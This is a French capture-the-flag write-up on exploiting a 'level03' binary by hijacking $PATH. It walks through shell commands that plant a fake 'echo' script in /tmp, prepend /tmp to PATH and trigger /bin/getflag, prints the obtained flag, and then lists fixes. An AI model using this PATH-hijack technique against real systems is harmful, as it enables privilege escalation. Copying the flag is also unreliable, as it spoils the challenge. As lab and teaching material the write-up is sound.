 # Rapport de Vulnérabilité : Hijacking de commande via modification de la variable d’environnement `$PATH`

## Description

Cette faille repose sur la redéfinition de la variable d’environnement `$PATH` afin de forcer l’exécution d’un faux binaire `echo`. Le programme `./level03` exécute la commande `echo` sans spécifier son chemin absolu. En plaçant un faux script `echo` dans un répertoire contrôlé (comme `/tmp`) et en modifiant `$PATH`, il est possible de détourner le comportement du programme pour exécuter une commande arbitraire, comme `getflag`.

## Comment Exploiter la Faille

### Étape 1 : Créer un faux script `echo`

```bash
echo -e '#!/bin/sh\n/bin/getflag' > /tmp/echo
chmod +x /tmp/echo
```

> Ce script exécute simplement `getflag` à la place de `echo`.

**Alternative pour test :**

```bash
echo -e '#!/bin/sh\necho pwned' > /tmp/echo
chmod +x /tmp/echo
```

### Étape 2 : Modifier le `$PATH`

Placer `/tmp` en tête du `PATH` pour forcer le programme à utiliser notre faux `echo` :

```bash
export PATH=/tmp:$PATH
```

### Étape 3 : Exécuter le binaire

```bash
./level03
```

Si le programme utilise `echo` sans chemin absolu, il exécutera `/tmp/echo`, déclenchant alors la commande `getflag`.

### Étape 4 : Récupération du flag

Le flag s'affiche directement après exécution :

```bash
getflag
```

**Flag obtenu :**

```
qi0maab88jeaj46qoumi7maus
```

---

## Comment Résoudre la Faille

Pour corriger cette vulnérabilité :

* **Utiliser des chemins absolus pour les commandes système** : `/bin/echo` au lieu de `echo`.
* **Restreindre les droits d'exécution** : Empêcher l'exécution de scripts placés dans des dossiers temporaires comme `/tmp`.

## Conclusion

Cette faille démontre les risques liés à l’utilisation non sécurisée des variables d’environnement dans les programmes. Une simple modification de `$PATH` permet de détourner des commandes système et d’exécuter des instructions arbitraires. Il est impératif de coder défensivement en utilisant des chemins absolus pour les appels système sensibles.

---
